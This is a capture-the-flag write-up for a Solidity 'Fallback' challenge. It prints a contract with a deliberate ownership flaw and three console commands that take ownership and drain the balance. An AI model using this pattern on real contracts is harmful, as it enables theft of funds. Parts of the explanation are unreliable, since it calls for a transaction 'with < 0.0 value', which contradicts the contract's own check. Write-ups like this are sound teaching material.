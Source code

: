 ## Fallback memes

### Contract

<details><summary>CLICK TO VIEW</summary>
<p>

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

</p>
</details>

### Solution

In a nutshell, solidity will always require some sort of fallback method to be able to process any non-standard transaction sent to the contract. 
This includes any sort of transaction with no data, no matching parameters and so and forth. As of current state, the default fallback method is
the last one in the contract. It has to be external and payable.

In our meme of a contract, we're provided with the following fallback method:


```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

Little needs to be said, we need to contribute once and then send a bogus transaction with < 0.0 value. However lets have a peek at the contribute
function:

```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
}
```
Wow. So hard. We need to send sub 0.001. Wowzer. Here are the commands:

```javascript
contract.contribute({to: instance, from: player, value: toWei("0.0005", "ether")})
sendTransaction({from: player, to: contract, value: toWei("0.0005", "ether")})
contract.withdraw()
```

Tada... how anticlimactic.
